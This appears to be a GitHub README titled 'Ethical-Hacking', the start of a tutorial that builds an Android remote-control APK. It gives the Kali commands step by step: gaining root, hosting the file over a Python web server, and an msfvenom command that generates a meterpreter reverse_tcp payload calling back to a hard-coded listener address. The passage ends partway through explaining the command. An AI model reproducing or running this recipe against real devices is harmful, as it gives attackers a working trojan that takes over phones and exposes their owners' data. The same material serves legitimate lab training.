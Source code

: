 # Ethical-Hacking

In these practices we will put in the form of code and a step-by-step explanation of each practice.

## First Practice

### msfvenom apk

In this first practice we will use msfvenom to create an application which will aim to control an Android device for ethical purposes.


#### Escalate privileges
┌──(kali㉿CarlosSantos)-[~]
└─$ `sudo -s`


#### We check what our hostname is
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `hostname -I`

#### We create a local server with python3
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `python3 -m http.server 80`



   >[!IMPORTANT]
   >
   >Remember to connect to the server with your android, in this case they must be on the same network since the server is local, just like our attack.


 >[!INFO]
 >
 >If you do not have kali metasploit installed on your system, you must install it `sudo apt install metasploit-framework`


#### We use msfvenom
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.27.4.239 LPORT=443 -o practice.apk`

1. *msfvenom: Es el nombre del comando que invoca la herramienta msfvenom.
-p *
